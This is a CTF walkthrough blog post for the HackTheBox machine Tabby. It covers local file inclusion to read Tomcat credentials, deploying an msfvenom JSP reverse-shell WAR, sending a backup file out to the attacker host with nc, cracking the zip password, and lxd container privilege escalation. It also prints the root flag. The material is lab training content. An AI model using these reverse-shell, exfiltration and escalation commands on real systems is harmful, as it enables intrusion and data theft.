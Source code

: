 ```yaml
---
layout: post
title:  "Tabby HackTheBox Walkthrough"
date:   2020-12-02 15:00:00 +0530
categories: HackTheBox CTF
---
```

Tabby is a machine in which I used Local File Inclusion to get tomcat credintials to obtain shell access and then used enumeration and lxd to get root Access.

## Recon
As always, I started scanning with Nmap

```
kali@kali:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-30 08:01 EDT
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.32 seconds


```
Two HTTP Services one of them is tomcat and a ssh service .

## Exploitation

First I opened the 80 service and inspected element and found this suspeciouc url

```
http://megahosting.htb/news.php?file=statement
```
I tested for 
1. SQL Injection (Failed)
2. Local File Inculsion (Succeded)

So I tried 
1. Log Poisoning (Failed)
2. Accessing Procs (Failed)
3. Accessing SSH id Files (Failed)
4. Accessing Tomcat Cred Files (Succeded)

The tomcat cred files required me to do some guessing as it's not in the default path, I found it in this path

```
view-source:http://megahosting.htb/news.php?file=../../../../../../../../../../../../../../../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
![Username](/assets/image/008/1.png)

Imedittly I searched for ways to deploy war shell. and found one using msfvenom and curl

```
root@kali:/home/kali/Desktop/tabby# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.110 LPORT=9999 -f war > shell.war
root@kali:/home/kali/Desktop/tabby# curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shell.war"
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
```

## From Tomcat to Ash

And got the shell. After Enumeration I found a backup file in /var/www/html/files/16162020_backup.zip. So I downloaded it using nc
### Target
```
nc -w 3 10.10.14.110 1234 < 16162020_backup.zip
```

### Hacker
```
nc -l -p 1234 > file.zip
```

Then I used fcrackzip to crack the file and found the password

### Hacker
```
root@kali:/home/kali/Desktop/tabby2# fcrackzip -D -p /usr/share/wordlists/rockyou.txt file.zip 
possible pw found: admin@it ()                                                                                    
```

### Target
```
tomcat@tabby:/home$ su ash                                                                                        
su ash                                                                                                            
Password: admin@it                                                                                                
                                                                                                                  
ash@tabby:/home$ id                                                                                               
id                                                                                                                
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)                        
```

and admin@it was the password for ash.

## From Ash to Root
After the id command I found an Intersteing thing (lxd). I searched for privlige Esuclation using lxd and found one

### Hacker
```
root@kali:/home/kali/Desktop/tabby2# git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
.....
root@kali:/home/kali/Desktop/tabby2/lxd-alpine-builder# ./build-alpine
root@kali:/home/kali/Desktop/tabby2/lxd-alpine-builder# python -m SimpleHTTPServer 5555
Serving HTTP on 0.0.0.0 port 5555 ...
10.10.10.194 - - [30/Sep/2020 08:19:08] "GET /alpine-v3.12-x86_64-20200930_0818.tar.gz HTTP/1.1" 200 -
                                                                   
```
### Target

```
ash@tabby:/home$ cd ash
cd ash
ash@tabby:~$ wget http://10.10.14.110:5555/alpine-v3.12-x86_64-20200930_0818.tar.gz
ash@tabby:~$ lxc image import alpine-v3.12-x86_64-20200930_0818.tar.gz --alias myimage
ash@tabby:~$ lxd init
ash@tabby:~$ lxc init myimage ignite -c security.privileged=true
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
ash@tabby:~$ lxc start ignite
ash@tabby:~$ lxc exec ignite /bin/sh
~ # ^[[58;5Rwhoami
whoami
root
cd /mnt/root
/mnt/root # ^[[58;13Rcd root
cd root
/mnt/root/root # ^[[58;18Rls
ls
root.txt  snap
/mnt/root/root # ^[[58;18Rcat root.txt
cat root.txt
eb940715ff82f9ec2d6858187aa8b28d

```
and voila here is the root privilege!





